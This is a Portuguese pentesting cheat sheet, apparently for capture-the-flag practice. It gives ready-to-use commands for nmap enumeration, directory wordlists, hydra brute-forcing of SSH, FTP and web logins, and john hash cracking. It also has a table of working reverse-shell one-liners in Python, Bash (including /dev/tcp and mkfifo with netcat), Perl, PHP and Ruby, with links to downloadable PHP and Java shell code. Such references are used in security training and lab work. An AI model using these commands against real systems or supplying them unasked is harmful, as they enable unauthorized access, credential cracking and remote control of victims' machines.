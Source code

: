 # _**ENUMERAÇÃO → REDES**_

| TIPO | COMANDO |
| -----| ------- |
| firewall | nmap -p [port_range] -A -T[1-5] [ip_address] |
| no firewall | nmap -p [port_range] -Pn -A -T[1-5] [ip_address] | 
| all ports | nmap -p- -A -T[1-5] [ip_address] | 

# _**ENUMERAÇÃO → DIRETÓRIOS**_

| | COMANDO |
| ---------- | ------- |
| DIRETÓRIOS | ../seclists/Discovery/Web-Content/common.txt |
| | ..seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt |
| | ..seclists/Discovery/Web-Content/Logins.fuzz.txt |

# _**ENUMERAÇÃO → CMS**_
| MANUALMENTE |
| ----------- |
| /readme.html |
| /changelog.txt |
| /docs/changelog.html |

# _**BRUTE FORCE → SENHAS**_
> ```bash
> hydra -l [username] -P [wordlist] -t [1-5] [extensão]
> ```
| TIPO | EXTENSÃO |
| ---- | -------- |
| SSH  | ssh://[ip_address] |
| WEB  | [ip_address] http-post-form "[login_page]:user=^USER^&pass=^PASS^:Username or password invalid" |
| FTP  | ftp://[ip_address] |

# _**BRUTE FORCE → EXTRAÇÃO DE HASHES**_
> ```bash
> john -w=/path/to/wordlist [file_name]
> ```
| TIPO | EXTENSÃO |
| ---- | -------- |
| zip  | zip2john [file.zip] > [file_name] |
| ssh  | ssh2jon [file] > [file_name.hash] |

# _**EXTRAÇÃO DE ARQUIVOS**_
| COM | COMANDO |
| --- | ------- |
| SSH | scp [username]@[ip_address]:/path/to/file /local/path |
| FTP | get [file_name] |
| WGET | wget ftp://[usuário]:[senha]@[ip_address]/[path/to/file] | 
| Binwalk | binwalk -e [file_name] |
| Steghide | steghide extract -sf [file_name][.jpg] |
| Hexeditor | hexeditor [file_name] |
| Strings | strings [file_name] |

# _**SHELLS & REVERSE SHELLS**_
> ```bash
> netcat (nc) -lvnp [port]
> ```
| TIPO | EM | COMANDO |
| ---- | -- | ------- |
| reverse shell | python | python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[ip_address]",[port]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' |
| bash shell | python | python3 -c 'import pty, os; pty.spawn("/bin/bash")' |
| reverse shell | bash | bash -i >& /dev/tcp/[ip_address]/[port] 0>&1 |
| reverse shell | bash | rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [ip_address] [port] >/tmp/f |
| reverse shell | perl | perl -e 'use Socket;$i="[ip_address]";$p=[port];socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' |
| reverse shell | php | php -r '$sock=fsockopen("[ip_address]",[port]);exec("/bin/sh -i <&3 >&3 2>&3");' |
| reverse shell | php | [código disponível para download → pentest_monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) |
| reverse shell | ruby | ruby -rsocket -e'f=TCPSocket.open("[ip_address]",[port]).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)' |
| reverse shell | java | [com este código, em upload web, pode-se obter reverse shell](https://github.com/V0idA2tronaut/Programming/tree/main/Scripts/Shell%20scripts/SHELL%20JAVA) |
